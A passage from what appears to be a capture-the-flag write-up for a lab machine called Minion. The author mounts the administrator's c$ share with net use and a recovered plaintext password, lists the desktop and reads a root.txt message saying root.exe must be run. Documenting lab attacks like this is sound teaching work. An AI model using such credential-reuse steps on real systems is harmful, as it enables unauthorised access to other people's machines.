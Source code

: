 ![image*](/img/image-20220406120358939.png)

### Filesystem as Administrator

I'll check if these creds work for the administrator with `net use`,
mounting the `c$` share:



    Minion> net use \\localhost\c$ /u:minion\administrator 1234test
    The command completed successfully.



Through this share I can read the administrator's desktop:



    Minion> dir \\localhost\c$\users\administrator\desktop

        Directory: \\localhost\c$\users\administrator\desktop

    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---         9/26/2017   6:18 AM     386479 root.exe                          
    -a---         8/24/2017  12:32 AM         76 root.txt



Right away I notice the `root.txt` is the wrong size. It's a message:



    Minion> cat \\localhost\c$\users\administrator\desktop\root.txt
    In order to get the flag you have to launch root.exe located in this folder!



This step is put in place to exactly prevent what I'm trying to do. In
order to get the flag, I'll need to get execution as Administrator, not
just read access to the desktop.

### Update Shell
